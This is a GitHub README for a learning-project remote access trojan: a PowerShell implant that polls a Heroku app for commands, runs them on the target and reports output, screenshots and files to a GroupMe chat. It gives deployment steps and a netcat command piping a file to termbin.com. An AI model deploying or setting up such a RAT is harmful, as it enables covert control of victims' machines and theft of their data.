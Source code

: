 # Rat-GroupME

_For learning purposes only. I wanted to see how the GroupME API or similar chat-based framework would work as a RAT controller. This is not meant
to be used maliciously._

The implant is the rat.ps1 and is meant to be triggered every X minutes, POSTing to the 
heroku python app asking for what commands to be ran. After running these 
commands, output is sent to the "attackers" in their set groupme chat. 

This is strictly of proof of concept and learning project, so no persistence strategies or task scheduling will be mentioned here. You're on your own.

app.py, runtime.txt, requirements.txt, Procfile, and commands.txt are all necessary on the 
heroku app-side. 

The rat.ps1 will need to be ran from the client. The rat.ps1 will run commands via a powershell session. Anything you can run in powershell, you can run remotely with this RAT. I've also added a screenshot and file upload function.
Multiple commands are suppored between polling interval. Send the commands you wish to run when the client phones home next, and output will be sent to you when the client reaches out.

## Steps to Reproduce
1. Setup a Python HerokuApp using the files I've provided. Heroku Git is a magical thing. 
2. Put the rat.ps1 on the machine you're testing as your client/target machine. As of right now,
I have tested this on PowerShell 5.1. I will be rewriting the script for Powershell 2.0.
3. Make the necessary changes based on your personal API information.

### In rat.ps1: 
* Set bot_id on line 12
* Set GM_TOKEN on line 20
* Provide your HerokuApp URL on line 36
 
### In app.py
* Set bot_id in send_message function
* The conditions that mention the bot's name may need to be changed if your bot is named something other than 'victim'

**For file Uploading**
You'll need to host your file somewhere like pastebin, termbin, or dropfile. 
Ex. - cat file.txt | nc termbin.com 9999
- Get the URL and use it to run your command in chat as such: upload URL OutFilePath

_Please see screenshots folder if confused_

Hope you enjoy, and don't hesitate to email me.
